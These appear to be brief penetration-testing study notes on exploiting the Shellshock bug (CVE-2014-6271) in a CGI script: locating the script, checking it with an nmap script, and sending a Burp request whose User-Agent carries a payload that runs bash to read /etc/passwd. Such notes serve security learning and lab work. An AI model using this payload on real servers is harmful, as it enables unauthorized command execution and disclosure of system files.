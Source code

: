 # ShellShock Vuln (CVE-2014-6271):

- cgi vulnerability
- view page-source, get uri of cgi file
- nmap script to check if server is vuln to shellshock:
	- http-shellshock --script-args “http-shellshock.uri=/gettime.cgi”
- https://github.com/opsxcq/exploit-CVE-2014-6271 : steps to exploit vuln
![http-exploit](./images/http-01.png)
 ￼
- send a burp request to cgi file and modify user-agent as above:
	- () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
	
	![http-exploit-burp](./images/http-02.png)
	  ￼